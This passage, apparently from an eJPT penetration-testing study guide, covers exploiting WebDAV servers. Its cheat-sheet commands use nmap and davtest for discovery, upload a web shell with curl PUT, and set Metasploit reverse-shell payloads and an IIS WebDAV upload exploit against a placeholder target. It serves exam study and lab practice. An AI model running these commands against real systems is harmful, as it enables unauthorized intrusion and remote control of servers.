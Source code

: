#### Issue 3: File Upload Restrictions
```bash
# Problem: No file types can be uploaded
# Solution: Check server configuration and try different endpoints
nmap --script http-methods --script-args http-methods.test-all -p 80 target
```

#### Issue 4: Metasploit Payload Failure
```bash
# Problem: Payload uploads but doesn't execute
# Solution: Verify execution capabilities and try different payloads
show payloads
set payload windows/shell/reverse_tcp
set payload linux/x86/shell/reverse_tcp
```

---

## 🎯 eJPT Exam Focus Points

### Essential Skills for eJPT
1. **WebDAV Discovery** - Using Nmap scripts and manual detection
2. **Authentication Testing** - Default/weak credential assessment
3. **Capability Assessment** - Using davtest for upload/execution testing
4. **Exploitation Execution** - Metasploit and manual exploitation methods
5. **Post-Exploitation** - System access and evidence collection

### Key Commands to Remember
```bash
# Discovery
nmap --script http-enum -p 80 target.com
nmap --script http-webdav-scan -p 80 target.com

# Capability testing
davtest -auth user:pass -url http://target.com/webdav/

# Manual file upload
curl -X PUT --data-binary @shell.asp --user user:pass http://target.com/webdav/shell.asp

# Interactive client
cadaver http://target.com/webdav/

# Metasploit exploitation
use exploit/windows/iis/iis_webdav_upload_asp
```

### Common Exam Scenarios
- **IIS Server with WebDAV** (like the lab example)
- **Apache Server with mod_dav** configuration
- **Misconfigured SharePoint WebDAV** access
- **Cloud Storage with WebDAV** interface

---